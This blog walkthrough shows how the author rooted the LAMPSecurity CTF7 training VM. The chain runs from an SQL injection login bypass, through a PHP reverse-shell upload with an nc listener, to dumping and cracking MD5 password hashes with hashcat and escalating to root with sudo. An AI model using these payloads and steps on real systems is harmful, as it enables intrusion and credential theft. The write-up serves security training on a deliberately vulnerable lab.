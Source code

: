 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF7 - Walkthrough"
date:   2024-04-02 20:00:30
author: Dhruv Ambaliya
description: 'LAMP Security CTF 7 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com/)


## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.134

{% endhighlight %}

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>Samba</p></pc>
           </td>
           <td>
               <pc><p>Samba smbd 3.X (workgroup: MYGROUP)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 901</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Samba SWAT administration server</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 10000</code></p></pc>
           </td>
           <td>
              <pc><p>Webmin</p></pc>
           </td>
           <td>
               <pc><p>(Webmin httpd)</p></pc>
           </td>
        </tr>

     </tbody>

</table>
</div>

## Web Application Enumeration

Host enumeration discovered two web application, one on port <code>80</code> and one on port
<code>8080</code>, as with the previous CTF series VM's, other entry points are
ignored and the **web application** is used for the entry point.

## Web Application on Port 8080

Inspection of the web application revealed it's vulnerable to an SQLi
authentication bypass. By Entering <code>' or 1=1 -- .</code> in the username
field an attacker can successfully login as admin.

![SQL Injection Auth Bypass](/img/blog/ctf7/sqli.png)

Admin account:

![Admin Account SQLi](/img/blog/ctf7/admin-login.png)

### PHP Shell Upload

With admin access to the web application it was possible to upload a reverse
shell.

![Reverse PHP Shell](/img/blog/ctf7/upload-shell.png)

Execution of the php shell was not possible via the web application directly.

### Dirbuster

Dirbuster disclosed the location of the file uploads directory
<code>/assets/</code>.

![OWASP Dirbuster](/img/blog/ctf7/dirbuster.png)

### Reverse Shell

![Execute Reverse Shell](/img/blog/ctf7/exec-webshell.png)

Executing the php script resulted in a reverse shell as the user apache:

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.134] from (UNKNOWN) [192.168.221.133] 58599
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC
2012 i686 i686 i386 GNU/Linux
01:12:47 up  2:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$
{% endhighlight %}

## Local Enumeration

Local enumeration discovered mysql root account could be accessed locally
without a password:

{% highlight bash %}
mysql -u root  and no password worked as the apache user.
{% endhighlight %}

### MySQL

{% highlight bash %}
mysql> select username, password from users;
select username, password from users;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| username
| password                         |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| brian@localhost.localdomain
| 4cb9c8a8048fd02294477fcb1a41191a |
| john@localhost.localdomain
| 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain
| 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain
| 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain
| 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain
| ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain
| 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain
| 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain
| 4773408d5358875b3764db552a29ca61 |
{% endhighlight %}

### Hashcat md5 cracking

The hashes were placed in a text file using the following format:

{% highlight bash %}
brian@localhost.localdomain:4cb9c8a8048fd02294477fcb1a41191a
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomai:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomai:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomai:b2a97bcecbd9336b98d59d9324dae5cf
{% endhighlight %}

NOTE: In order for hashcat to ignore usernames in a hash input file you need to
specify <code>--username </code>

{% highlight bash %}
[root:~]# hashcat --username -m 0 -a 0 crack-ctf7.txt
/usr/share/wordlists/rockyou.txt
{% endhighlight %}

#### Cracked MD5 Hashes

{% highlight bash %}
ed2539fe892d2c52c42a440354e8e3d5:madrid
4cb9c8a8048fd02294477fcb1a41191a:changeme
5d93ceb70e2bf5daa84ec3d0cd2c731a:qwer1234
2146bf95e8929874fc63d54f50f1d2e3:turtles77
9c42a1346e333a770904b2a2b37fa7d3:somepassword
b2a97bcecbd9336b98d59d9324dae5cf:chuck33
{% endhighlight %}

## Local Privilege Escalation

The julia account was able to <code>su</code> to root.

{% highlight bash %}
bash-4.1$ su - julia
su - julia
Password: madrid

[julia@localhost ~]$ sudo -s
sudo -s
[sudo] password for julia: madrid

[root@localhost julia]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost julia]#
{% endhighlight %}

Thanks for the VM :)
